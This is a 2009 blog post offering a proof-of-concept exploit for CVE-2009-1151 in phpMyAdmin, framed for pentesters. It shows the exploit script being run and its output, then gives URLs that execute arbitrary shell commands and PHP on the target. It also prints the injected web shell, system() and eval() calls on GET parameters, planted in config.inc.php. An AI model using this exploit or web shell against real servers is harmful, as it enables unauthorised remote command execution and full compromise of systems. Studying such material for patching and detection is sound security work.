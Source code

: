 ```yaml
---
title: CVE-2009-1151 phpMyAdmin Remote Code Execution Proof of Concept
author: pagvac
date: Tue, 09 Jun 2009 19:03:13 GMT
template: post.pug
category: fucked
---
```


I couldn't find any public PoC/exploit for this [phpMyAdmin](http://www.phpmyadmin.net/home_page/index.php) vulnerability, despite it being a serious bug affecting a popular open-source project. I think this vulnerability is a nice reminder that it's still possible to perform remote command execution these days without relying on SQL injection (i.e.: `xp_cmdshell`) or a memory corruption bug (i.e.: heap overflow).

> All the documentation you need is in the script comments. I recommend you to go through it, before you actually run the script.

After reading the public [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) and patched code, and playing around for a while, I managed to have a working PoC bash script. The script will allow you to remotely run shell commands and PHP code against vulnerable targets. Although in principle the vulnerability sounds quite simple, it actually took me a while to go from [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) to working attack code.

I'm providing the script with the hope that it will help pentesters and security researchers. Please only test the script against your own systems, or systems you have been given permission to pentest! Don't be evil, it's not worth it.

## Demo

```bash
$ ./phpMyAdminRCE.sh
usage: ./phpMyAdminRCE.sh <phpMyAdmin_base_URL>
i.e.: ./phpMyAdminRCE.sh http://target.tld/phpMyAdmin/
```

```bash
$ ./phpMyAdminRCE.sh http://172.16.211.10/phpMyAdmin-3.0.1.1/
[+] checking if phpMyAdmin exists on URL provided ...
[+] phpMyAdmin cookie and form token received successfully. Good!
[+] attempting to inject phpinfo() ...
[+] success! phpinfo() injected successfully! output saved on /tmp/phpMyAdminRCE.sh.9217.phpinfo.flag.html
[+] you *should* now be able to remotely run shell commands and PHP code using your browser. i.e.:
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?p=phpinfo();
    please send any feedback/improvements for this script to unknown.pentester<AT_sign_goes_here>gmail.com
```

```bash
$ curl "http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/"
total 96
drwxr-xr-x   2 root   root  4096 Mar 11 10:12 bin
drwxr-xr-x   3 root   root  4096 May  6 10:01 boot
lrwxrwxrwx   1 root   root    11 Oct 12  2008 cdrom -> media/cdrom
drwxr-xr-x  15 root   root 14300 Jun  5 09:02 dev
drwxr-xr-x 147 root   root 12288 Jun  5 09:02 etc
drwxr-xr-x   3 root   root  4096 Oct 18  2008 home
drwxr-xr-x   2 root   root  4096 Jul  2  2008 initrd
_[partial output removed for brevity reasons]_
```

Contents of `/config/config.inc.php` after our evil code has been successfully injected:

```php
<?php
/*
 * Generated configuration file
 * Generated by: phpMyAdmin 3.0.1.1 setup script by Michal ÄŒihaÅ™ <michal@cihar.com>
 * Version: $Id: setup.php 11423 2008-07-24 17:26:05Z lem9 $
 * Date: Tue, 09 Jun 2009 14:13:34 GMT
 */

/* Servers configuration */
$i = 0;

/* Server  (config:root) [1] */
$i++;
$cfg['Servers'][$i]['host']=''; if($_GET['c']){echo
'';system($_GET['c']);echo '';}if($_GET['p']){echo
'';eval($_GET['p']);echo '';};//'] = 'localhost';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['compress'] = false;
$cfg['Servers'][$i]['auth_type'] = 'config';
$cfg['Servers'][$i]['user'] = 'root';

/* End of servers configuration */

?>
```

## Thanks

I'd like to thank [Greg Ose](http://labs.neohapsis.com/2009/04/06/about-cve-2009-1151/) for discovering such a cool vuln and doing a nice writeup about the technical details! Also big thanks to [str0ke](http://www.milw0rm.com/) for testing this PoC script and providing such useful feedback!
